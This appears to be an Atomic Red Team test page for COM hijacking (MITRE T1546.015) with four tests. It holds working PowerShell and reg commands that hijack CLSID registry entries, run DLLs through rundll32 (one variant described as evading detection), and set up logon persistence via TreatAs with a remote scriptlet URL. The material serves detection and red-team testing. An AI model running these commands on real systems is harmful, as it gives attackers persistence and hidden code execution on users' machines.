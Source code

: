 ```yaml
---
tags: [T1546_015, atomic_test]
filename: "[[T1546.015 - Event Triggered Execution- Component Object Model Hijacking]]"
---
```

# T1546.015 - Event Triggered Execution: Component Object Model Hijacking

## Atomic Test #1 - COM Hijacking - InprocServer32
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via rundll32.exe.

Reference: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/

**Supported Platforms:** Windows


**auto_generated_guid:** 48117158-d7be-441b-bc6a-d9e36e47b52b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Apartment|
| dllpath | Path to the DLL. | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;AtomicTest.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value "#{dllpath}"
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-sta #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dllpath}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/AtomicTest.dll" -OutFile "#{dllpath}"
```




<br/>
<br/>

## Atomic Test #2 - Powershell Execute COM Object
Use the PowerShell to execute COM CLSID object.
Reference: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

**Supported Platforms:** Windows


**auto_generated_guid:** 752191b1-7c71-445c-9dbe-21bb031b18eb






#### Attack Commands: Run with `powershell`! 


```powershell
$o= [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39"))
$item = $o.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```

#### Cleanup Commands:
```powershell
Get-Process -Name "*calc" | Stop-Process
```





<br/>
<br/>

## Atomic Test #3 - COM Hijacking with RunDLL32 (Local Server Switch)
This test uses PowerShell to hijack a reference to a Component Object Model by creating registry values under InprocServer32 key in the HKCU hive then calling the Class ID to be executed via "rundll32.exe -localserver [clsid]". 
This method is generally used as an alternative to 'rundll32.exe -sta [clsid]' to execute dll's while evading detection. 
Reference: https://www.hexacorn.com/blog/2020/02/13/run-lola-bin-run/
Upon successful execution of this test with the default options, whenever certain apps are opened (for example, Notepad), a calculator window will also be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 123520cc-e998-471b-a920-bd28e3feafa0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| clsid_threading | Threading Model | string | Both|
| dll_path | Path to the DLL. | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1546.015_calc.dll|
| clsid | Class ID to hijack. | string | {B5F8350B-0548-48B1-A6EE-88BD00B4A5E7}|
| clsid_description | Description for CLSID | string | MSAA AccPropServices|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Value '#{clsid_description}'
New-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Value "#{dll_path}"
New-ItemProperty -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}\InprocServer32' -Name 'ThreadingModel' -Value '#{clsid_threading}' -PropertyType "String"
Start-Process -FilePath "C:\Windows\System32\RUNDLL32.EXE" -ArgumentList '-localserver #{clsid}'
```

#### Cleanup Commands:
```powershell
Remove-Item -Path 'HKCU:\SOFTWARE\Classes\CLSID\#{clsid}' -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL For testing
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/bin/T1546.015_calc.dll" -OutFile "#{dll_path}"
```




<br/>
<br/>

## Atomic Test #4 - COM hijacking via TreatAs
This test first create a custom CLSID class pointing to the Windows Script Component runtime DLL. This DLL looks for the ScriptletURL key to get the location of the script to execute.
Then, it hijacks the CLSID for the Work Folders Logon Synchronization to establish persistence on user logon by creating the 'TreatAs' with the malicious CLSID as default value. The
test is validated by running 'rundll32.exe -sta "AtomicTest"' to avoid logging out.

References:

https://youtu.be/3gz1QmiMhss?t=1251

https://github.com/enigma0x3/windows-operating-system-archaeology

**Supported Platforms:** Windows


**auto_generated_guid:** 33eacead-f117-4863-8eb0-5c6304fbfaa9






#### Attack Commands: Run with `powershell`! 


```powershell
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest.1.00\CLSID" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /ve /T REG_SZ /d "C:\WINDOWS\system32\scrobj.dll" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\InprocServer32" /v "ThreadingModel" /T REG_SZ /d "Apartment" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ProgID" /ve /T REG_SZ /d "AtomicTest" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\ScriptletURL" /ve /T REG_SZ /d "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.015/src/TreatAs.sct" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}\VersionIndependentProgID" /ve /T REG_SZ /d "AtomicTest" /f

reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
reg add "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\TreatAs" /ve /T REG_SZ /d "{00000001-0000-0000-0000-0000FEEDACDC}" /f

rundll32.exe -sta "AtomicTest"
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\AtomicTest" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{00000001-0000-0000-0000-0000FEEDACDC}" /f
reg delete "HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f
```





<br/>
